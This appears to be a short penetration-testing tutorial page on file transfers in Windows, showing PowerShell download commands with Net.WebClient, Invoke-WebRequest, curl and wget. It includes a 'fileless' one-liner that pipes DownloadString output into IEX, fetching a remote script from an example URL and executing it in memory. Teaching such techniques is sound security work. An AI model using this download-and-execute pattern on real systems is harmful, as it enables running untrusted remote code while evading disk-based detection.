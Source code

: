```yaml
---
title: "File Transfers for Penetration Testing"
date: 2024-07-30
---
```


## The Basics

---

## Windows

### Download Files using Powershell

The esiast way to download files using Powershell is to use the `Net.WebClient` class. This class provides a intuitive way to download HTTP HTTPS and FTP files.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("http://example.com/file.txt", "C:\path\to\file.txt")
```

Ofcourse, you can also use the `Invoke-WebRequest` cmdlet which is the windows equivalent of `curl` or `wget`. The `DownloadFile` method is used to download a file to a specified location.

```powershell
Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
curl -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
wget -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
```

### Download Fileless using Powershell

In very rare cases, you may need to download a file without writing it to disk. This can be done using the `Net.WebClient` class and the `DownloadString` method. The IEX command can be used to execute the downloaded script.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadString("http://example.com/file.txt") | IEX
```

---

{{< comments >}}
